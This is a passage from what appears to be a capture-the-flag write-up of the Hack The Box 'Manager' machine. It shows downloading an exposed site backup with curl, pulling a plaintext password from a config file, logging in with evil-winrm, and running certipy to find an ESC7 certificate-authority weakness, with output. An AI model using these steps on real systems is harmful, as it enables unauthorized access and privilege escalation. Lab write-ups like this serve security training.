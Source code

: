 So seeing that this file was present on the webroot we are able to just download it by browsing to the exact filename.

```bash
curl http://manager.htb/website-backup-27-07-23-old.zip -o website-backup-27-07-23-old.zip
```

After extracting the zip file we'd get a full backup of the website. In this backup there was one file named **.old-conf.xml** which contained the credentials of raven

![Credentials of raven](/assets/img/Manager/Manager_05.png)

So now we could use these credentials to gain access to the system using evilwinrm

```bash
evil-winrm  -i manager.htb -u raven -p 'R4v3nBe5tD3veloP3r!123'
```

![Initial access as raven](/assets/img/Manager/Manager_06.png)

## Privesc

Looking at the name of the box i was already getting a feeling this might have something to do with certificate abuse. To verify this i ran  certipy to check for any vulnerable ADCS certificates. here we could see that raven had the manageCA permissions which makes it vulnerable to the **ESC7** attacks

```bash
certipy find -u raven@manager.htb -p 'R4v3nBe5tD3veloP3r!123' -dc-ip 10.10.11.236 -vulnerable
```

```
Certificate Authorities
  0
    CA Name                             : manager-DC01-CA
    DNS Name                            : dc01.manager.htb
    Certificate Subject                 : CN=manager-DC01-CA, DC=manager, DC=htb
    Certificate Serial Number           : 5150CE6EC048749448C7390A52F264BB
    Certificate Validity Start          : 2023-07-27 10:21:05+00:00
    Certificate Validity End            : 2122-07-27 10:31:04+00:00
    Web Enrollment                      : Disabled
    User Specified SAN                  : Disabled
    Request Disposition                 : Issue
    Enforce Encryption for Requests     : Enabled
    Permissions
      Owner                             : MANAGER.HTB\Administrators
      Access Rights
        Enroll                          : MANAGER.HTB\Operator
                                          MANAGER.HTB\Authenticated Users
                                          MANAGER.HTB\Raven
        ManageCertificates              : MANAGER.HTB\Administrators
                                          MANAGER.HTB\Domain Admins
                                          MANAGER.HTB\Enterprise Admins
        ManageCa                        : MANAGER.HTB\Administrators
                                          MANAGER.HTB\Domain Admins
                                          MANAGER.HTB\Enterprise Admins
                                          MANAGER.HTB\Raven
    [!] Vulnerabilities
      ESC7                              : 'MANAGER.HTB\\Raven' has dangerous permissions
Certificate Templates                   : [!] Could not find any certificate templates
```
